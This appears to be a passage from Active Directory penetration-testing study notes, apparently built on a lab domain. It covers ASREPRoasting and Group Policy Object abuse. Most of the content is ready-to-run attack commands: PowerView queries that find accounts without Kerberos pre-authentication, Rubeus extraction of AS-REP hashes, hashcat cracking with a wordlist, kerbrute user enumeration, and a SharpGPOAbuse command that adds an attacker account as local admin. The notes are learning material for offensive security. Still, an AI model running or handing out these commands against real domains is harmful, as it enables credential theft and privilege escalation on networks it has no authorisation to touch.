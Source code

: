 ## 10 ASREPRoasting

### **What is it?**

- If **Kerberos pre-authentication is disabled**, any user can request an **AS-REP ticket**.
- The ticket is **encrypted with the user's password hash**, which can be **cracked offline**.

**Enumerating accounts with pre-auth disabled:**
```powershell
Get-DomainUser -PreauthNotRequired | select samaccountname,userprincipalname,useraccountcontrol | fl
```

- Extracting AS-REP hashes with Rubeus:
```powershell
.\Rubeus.exe asreproast /user:mmorgan /nowrap /format:hashcat
```

- Cracking ther AS-REP hash with Hashcat:
```bash
hashcat -m 18200 hash.txt /usr/share/wordlist/rockyou.txt
```

Or use `kerbrute` in Linux
```bash
kerbrute userenum -d inlanefreight.local --dc 172.16.5.5 /opt/jsmith.txt 
```

---

## 11 Group Policy Object (GPO) Abuse

- If an attacker **modifies a GPO**, they can:
    - **Add themselves as a local admin** on targeted computers.
    - **Create a scheduled task** to execute payloads.
    - **Push a malicious logon script**.
Enumerating GPOs using PowerView:
```powershell
Get-DomainGPO | Select-Object displayname
```

Checking if Domain Users can modify a GPO:
```powershell
$sid=Convert-NameToSid "Domain Users"
Get-DomainGPO | Get-ObjectAcl | ?{$_.SecurityIdentifier -eq $sid}
```

Exploit using SharpGPOAbuse:
```powershell
SharpGPOAbuse.exe --AddUser --UserAccount attacker --Password Pass123! --GPOName "Workstation GPO"
```

---

### **Key Takeaways**
